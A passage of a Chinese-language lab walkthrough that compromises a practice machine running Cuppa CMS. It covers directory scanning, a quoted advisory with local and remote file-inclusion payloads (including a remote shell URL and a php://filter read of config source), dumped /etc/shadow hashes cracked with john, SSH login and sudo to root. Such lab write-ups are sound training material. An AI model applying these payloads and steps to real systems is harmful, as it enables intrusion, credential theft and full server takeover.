        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/administrator/templates/default/images/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/wordpress/wp-content/plugins/akismet/ ----
    ==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-content/plugins/akismet/_inc/
    ==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-content/plugins/akismet/views/   
    
    ---- Entering directory: http://10.0.2.13:80/wordpress/wp-content/plugins/akismet/_inc/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    ---- Entering directory: http://10.0.2.13:80/wordpress/wp-content/plugins/akismet/views/ ----
    (!) WARNING: Directory IS LISTABLE. No need to scan it.    
        (Use mode '-w' if you want to scan it anyway)
    
    -----------------
    END_TIME: Tue Nov  4 09:04:41 2025
    DOWNLOADED: 429618 - FOUND: 3
    ```

整理一下核心结果就是：

```
==> DIRECTORY: http://10.0.2.13:80/administrator/
==> DIRECTORY: http://10.0.2.13:80/javascript/
+ http://10.0.2.13:80/server-status (CODE:403|SIZE:297)
==> DIRECTORY: http://10.0.2.13:80/wordpress/ 
```

其中 `/javascript` 子页面没有有价值的内容，`/wordpress` 点明了这是一个 WordPress 框架（这个版本应该有很多漏洞）的项目，但是无法访问（会跳回 `localhost`）。所以主要看 `/administrator` 页面

```
---- Scanning URL: http://10.0.2.13:80/administrator/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/alerts/
==> DIRECTORY: http://10.0.2.13:80/administrator/api/
==> DIRECTORY: http://10.0.2.13:80/administrator/classes/
==> DIRECTORY: http://10.0.2.13:80/administrator/components/
==> DIRECTORY: http://10.0.2.13:80/administrator/extensions/
==> DIRECTORY: http://10.0.2.13:80/administrator/installation/
==> DIRECTORY: http://10.0.2.13:80/administrator/js/
==> DIRECTORY: http://10.0.2.13:80/administrator/language/
==> DIRECTORY: http://10.0.2.13:80/administrator/media/
+ http://10.0.2.13:80/administrator/robots.txt (CODE:200|SIZE:26)       
==> DIRECTORY: http://10.0.2.13:80/administrator/templates/

---- Entering directory: http://10.0.2.13:80/administrator/alerts/ ----

---- Entering directory: http://10.0.2.13:80/administrator/api/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/api/administrator/
==> DIRECTORY: http://10.0.2.13:80/administrator/api/test/

---- Entering directory: http://10.0.2.13:80/administrator/classes/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/classes/ajax/

---- Entering directory: http://10.0.2.13:80/administrator/components/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/components/configuration/
==> DIRECTORY: http://10.0.2.13:80/administrator/components/menu/
==> DIRECTORY: http://10.0.2.13:80/administrator/components/permissions/
==> DIRECTORY: http://10.0.2.13:80/administrator/components/stats/

---- Entering directory: http://10.0.2.13:80/administrator/extensions/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/extensions/banners/
==> DIRECTORY: http://10.0.2.13:80/administrator/extensions/content/

---- Entering directory: http://10.0.2.13:80/administrator/installation/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/installation/html/

---- Entering directory: http://10.0.2.13:80/administrator/js/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/js/filemanager/
==> DIRECTORY: http://10.0.2.13:80/administrator/js/jquery/
==> DIRECTORY: http://10.0.2.13:80/administrator/js/tiny_mce/
```

大致的信息收集完毕

#### 访问

进入了 `http://10.0.2.13:80/administrator/installation`





注意第二张图片的页面的最下方，当鼠标放置在 `[?]` 处时，其内容出现在页面最下方

随意填写内容



进行下一步后发现 Error：


似乎没有头绪了，偶然发现页面 Title `Cuppa CMS`，在 Github 上搜一下，发现是真实存在的项目，而且似乎有 SQL 注入，文件上传导致远程代码执行，XSS 攻击等各种 Bug



用 `searchsploit` 搜了一下发现真能搜到漏洞

```
> searchsploit cuppa
------------------------------------------------------------------ -----------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ -----------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion   | php/webapps/25971.txt
------------------------------------------------------------------ -----------------------
Shellcodes: No Results
```

打开以后发现是个教程：

```
####################################
VULNERABILITY: PHP CODE INJECTION
####################################

/alerts/alertConfigField.php (LINE: 22)

-----------------------------------------------------------------------------
LINE 22:
        <?php include($_REQUEST["urlConfig"]); ?>
-----------------------------------------------------------------------------


#####################################################
DESCRIPTION
#####################################################

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

Moreover, We could access Configuration.php source code via PHPStream

For Example:
-----------------------------------------------------------------------------
http://target/cuppa/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
-----------------------------------------------------------------------------
```

是个文件包含漏洞，在 BurpSuite 上测试一下，把 GET 方法改成 POST：


爆率真的很高。

教程中提到了允许远程文件包含，一开始想着上传 php 一句话，但是尝试失败，于是直接尝试读取 `/etc/shadow` 的内容（从 `/passwd` 内容推测应该可以访问），找到两个有价值的：

```
root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
```

两个用户的哈希加密后的密码，`john` 进行爆破

```
> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer         (w1r3s)
```

爆破出了 `w1r3s` 的密码（`root` 的没有），通过 SSH 登录

```
ssh w1r3s@10.0.2.13                                          ✔  15:18:12   
The authenticity of host '10.0.2.13 (10.0.2.13)' can't be established.
ED25519 key fingerprint is SHA256:Bue5VbUKeMSJMQdicmcMPTCv6xvD7I+20Ki8Um8gcWM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.13' (ED25519) to the list of known hosts.
----------------------
Think this is the way?
----------------------
Well,........possibly.
----------------------
w1r3s@10.0.2.13's password: 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.13.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

108 packages can be updated.
6 updates are security updates.

.....You made it huh?....
Last login: Mon Jan 22 22:47:27 2018 from 192.168.0.35
w1r3s@W1R3S:~$ id
uid=1000(w1r3s) gid=1000(w1r3s) groups=1000(w1r3s),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
w1r3s@W1R3S:~$ sudo -l
sudo: unable to resolve host W1R3S
[sudo] password for w1r3s: 
Matching Defaults entries for w1r3s on W1R3S:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User w1r3s may run the following commands on W1R3S:
    (ALL : ALL) ALL
w1r3s@W1R3S:~$ sudo su
sudo: unable to resolve host W1R3S
root@W1R3S:/home/w1r3s# id
uid=0(root) gid=0(root) groups=0(root)
```

发现这个用户自带 sudo 权限，于是直接获取 root shell

---

## 渗透结果

成功获得 root shell，拿到 home 目录下的 Flag



<del>甚至可以打开靶机的 GUI 页面</del>



---
